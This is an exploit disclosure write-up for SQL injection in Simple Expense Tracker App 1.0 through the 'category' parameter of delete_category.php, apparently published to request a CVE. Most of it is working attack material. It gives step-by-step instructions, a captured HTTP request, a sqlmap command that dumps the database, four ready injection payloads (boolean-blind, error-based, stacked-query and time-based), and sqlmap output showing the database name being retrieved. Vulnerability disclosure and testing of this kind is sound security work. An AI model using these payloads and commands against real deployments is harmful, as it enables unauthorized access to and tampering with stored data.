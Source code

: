 # Simple Expense Tracker - SQL Injection-2
+ **Exploit Title:** Simple Expense Tracker - SQL Injection-2
+ **Date:** 2024-22-01
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/16794/simple-expense-tracker-app-using-php-source-code.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=16794&title=Expense+Tracker+App+Using+PHP+with+Source+Code
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
 Simple Expense Tracker App 1.0 allows SQL Injection via the 'category' parameter in "http://localhost/simple-expense-tracker-app/endpoint/delete_category.php?category=1". Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/simple-expense-tracker-app/"
+ Select any category and press the delete-category button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /simple-expense-tracker-app/endpoint/delete_category.php?category=1 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36

```

+ Use sqlmap to exploit. In sqlmap, use 'category' parameter to dump the database.
```
sqlmap -r r.txt -p category --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: category (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: category=1' RLIKE (SELECT (CASE WHEN (4053=4053) THEN 1 ELSE 0x28 END))-- kOMM

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: category=1' AND EXTRACTVALUE(6799,CONCAT(0x5c,0x716b766b71,(SELECT (ELT(6799=6799,1))),0x7171707171))-- CpbI

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: category=1';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: category=1' AND (SELECT 8971 FROM (SELECT(SLEEP(5)))GnJl)-- vuan
---
[18:43:46] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[18:43:46] [INFO] fetching current database
[18:43:46] [INFO] retrieved: 'expense_tracker_db'
current database: 'expense_tracker_db'
```
+ current database: `expense_tracker_db`

![Ekran görüntüsü 2024-01-30 025011](https://github.com/BurakSevben/CVEs/assets/117217689/f725b2d2-1ce7-49fa-aed9-949d26cd605a)

